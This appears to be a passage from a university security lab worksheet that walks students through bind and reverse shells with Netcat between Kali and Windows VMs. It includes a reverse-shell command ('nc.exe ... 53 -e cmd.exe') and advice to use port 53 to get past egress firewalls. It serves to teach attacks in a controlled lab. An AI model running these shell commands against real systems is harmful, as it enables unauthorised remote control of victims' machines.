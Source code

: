 ![Bind Shell Blocked by Firewall][bind_shell_blocked]
*Bind shell: main limitation, NAT/firewalls rules typically prevent this*

When you are finished simulating a bind shell, run:

exit

### Reverse shell {#reverse-shell}

A solution for an attacker is to rethink the way the connection is established; and rather than connect from the attacker to the victim, get the victim to initiate the connection to the attacker. This is known as a *reverse shell*, and is now the most common approach to shell payloads.

![Reverse Shell Concept][reverse_shell]
*Reverse shell: connection from the victim to the attacker*

Again, you will simulate this using Netcat:

==VM: On the Kali Linux VM (the attacker)==:

==hint: Note the attackers IP address for the host only network== (hint: "ifconfig", the IP address will start the same as the Windows VM IP address you noted earlier).

==action: Start a listener:==

```bash
nc -l -p 53 -vv
```

==VM: On the Windows VM (the victim)==:

==action: Connect back to the attacker and present them with their shell:==

```bash
nc.exe ==edit:Attacker-IP-address-noted-above== 53 -e cmd.exe -vv
```

Once again you have a shell. Note that this time the Windows firewall does not offer to block the connection, since the connection was outgoing.

So why, of all 65535 possible TCP/IP ports, would an attacker choose port 53? It is possible to set firewall rules to restrict even outgoing connections. However, most Internet connected systems need to be able to use DNS, which resolves domain names, such as “google.com” into IP addresses. It just so happens that DNS uses port 53 (both UDP and TCP). So by choosing 53, it is *extremely* likely that firewall rules will let this through.

Before finishing, let’s try a few more simple commands to simulate malicious activity on the victim’s system. 

==VM: On the Kali Linux VM (the attacker)==, you should see the Windows command prompt within your terminal. ==action: Enter the following command (all on one line), and watch the victim's screen:==

```bash
explorer "https://google.com/search?q=how+to+avoid+paying+taxes"
```

Uh Oh - it seems that the victim has just opened a browser and searched for a way to avoid paying taxes! That could come back to haunt them! (Note: Even if they don't have internet access, check the search bar to see what would have been returned). Perhaps spend a few minutes seeing what other things can be triggered via simple commands. For instance, can you find ways of doing the following things?


[^1]:  Arbitrary code execution is not just something that affects desktop operating systems. Resourceful gamers have shown that certain titles, such as Castlevania: Symphony of the Night or The Legend of Zelda: Ocarina of Time have ways of organising your character’s inventory or giving save files specific names so the system reads them as code, essentially hacking the games in real-time and giving players advantages that were never intended by the developers.
[^2]:  Remember we are exploiting a vulnerability of the Adobe Reader application, so use Adobe Reader and not Chrome to open the PDF file.
[bind_shell]: {{ site.baseurl }}/assets/images/introducing_attacks/3_vulnerabilities/bind_shell.png
[vm_launch_icon]: {{ site.baseurl }}/assets/images/common/vm_launch_icon.png
[firewall_dialogue]: {{ site.baseurl }}/assets/images/introducing_attacks/3_vulnerabilities/firewall_dialogue.png
[linux_victim_server_vm]: {{ site.baseurl }}/assets/images/introducing_attacks/3_vulnerabilities/linux_victim_server_vm.png
[bind_shell_blocked]: {{ site.baseurl }}/assets/images/introducing_attacks/3_vulnerabilities/bind_shell_blocked.png
[reverse_shell]: {{ site.baseurl }}/assets/images/introducing_attacks/3_vulnerabilities/reverse_shell.png
[msf_interfaces]: {{ site.baseurl }}/assets/images/introducing_attacks/3_vulnerabilities/msf_interfaces.png
